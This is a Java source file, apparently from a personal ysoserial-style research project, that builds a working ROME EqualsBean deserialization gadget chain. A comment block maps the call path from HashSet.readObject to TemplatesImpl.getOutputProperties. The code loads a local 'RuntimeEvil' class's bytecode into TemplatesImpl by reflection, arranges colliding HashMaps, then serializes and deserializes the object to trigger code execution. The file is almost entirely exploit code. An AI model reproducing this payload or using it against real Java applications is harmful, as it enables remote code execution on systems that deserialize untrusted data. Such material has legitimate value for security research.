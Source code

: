 ```java
//HashSet.readObject
//HashMap.put
//HashMap.putval
//HashMap.equals
//AbastractMap.equals
//EqualsBean.equals
//EqualsBean.beanEquals
//TemplatesImpl.getOutputProperties()
public class Rome_EqualsBeans {
    public static void main(String[] args) throws Exception {
        byte[] code1 = Files.readAllBytes(Paths.get("E:\\CODE_COLLECT\\Idea_java_ProTest\\my-yso\\target\\classes\\TemplatesImpl_RuntimeEvil.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code1});
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "godown");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
            }
        }
        TemplatesImpl fakeTemplates = new TemplatesImpl();
        HashMap fakehashMap = new HashMap();
        EqualsBean equalsBean = new EqualsBean(HashMap.class, fakehashMap);
//        equalsBean.equals(fakeTemplates);
        HashSet hashSet = new HashSet();
        HashMap hashMap1 = new HashMap();
        HashMap hashMap2 = new HashMap();
        hashMap1.put("zZ", fakeTemplates);
        hashMap1.put("yy", equalsBean);
        hashMap2.put("zZ", equalsBean);
        hashMap2.put("yy", fakeTemplates);
        hashSet.add(hashMap1);
        hashSet.add(hashMap2);
        Field _beanClassField = EqualsBean.class.getDeclaredField("_beanClass");
        _beanClassField.setAccessible(true);
        _beanClassField.set(equalsBean, Templates.class);
        Field _objField = EqualsBean.class.getDeclaredField("_obj");
        _objField.setAccessible(true);
        _objField.set(equalsBean, templatesClass);
        serialize(hashSet);
        unserialize("ser.bin");
    }
    public static void serialize(Object obj) throws Exception
    {
        java.io.FileOutputStream fos = new java.io.FileOutputStream("ser.bin");
        java.io.ObjectOutputStream oos = new java.io.ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.close();
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException
    {
        java.io.FileInputStream fis = new java.io.FileInputStream(Filename);
        java.io.ObjectInputStream ois = new java.io.ObjectInputStream(fis);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}
```